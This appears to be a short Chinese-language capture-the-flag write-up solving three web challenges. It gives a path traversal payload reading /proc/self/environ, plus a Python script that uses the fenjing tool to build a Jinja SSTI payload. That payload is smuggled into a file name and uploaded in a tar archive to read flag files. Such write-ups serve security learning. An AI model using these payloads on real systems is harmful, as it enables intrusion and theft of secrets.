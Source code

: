 - > 这出的都是什么题目。。。
- # Passwordless
	- 题目给了源码，需要算一个uuid
	- payload
		- ``http://24.199.110.35:40150/3c68e6cc-15a7-59d4-823c-e7563bbb326c``
		- 对，这坨东西就是payload，只要按计算逻辑把对应的uuid交上去就好了。。。
- # Focus on yourSELF
	- 简单任意文件读
	- ``/view?image=../../../../../proc/self/environ``
- # File Sharing Portal
	- 用文件名打SSTI, payload要短
	- 首先用fenjing生成一个payload，作为txt文件名
		- ```python
		  from pathlib import Path
		  
		  def waf(s):
		      return all(word not in s for word in [])
		  
		  
		  full_payload_gen = fenjing.FullPayloadGen(waf)
		  payload, _ = full_payload_gen.generate(
		      fenjing.const.EVAL,
		      (
		          fenjing.const.STRING,
		          "next(__import__('pathlib').Path('.').glob('flag*')).read_text()",
		      ),
		  )
		  
		  # payload="{{g.pop.__globals__.__builtins__.eval('next(__import__(\\'pathlib\\').Path(\\'.\\').glob(\\'flag*\\')).read_text()')}}"
		  
		  (Path(payload + ".txt")).touch()
		  ```
	- 然后用tar打包起来丢上去就行
		- ```shell
		  tar -cvf test_tar.tar *.txt
		  {{g.pop.__globals__.__builtins__.eval('next(__import__(\\'pathlib\\').Path(\\'.\\').glob(\\'flag*\\')).read_text()')}}.txt
		  ```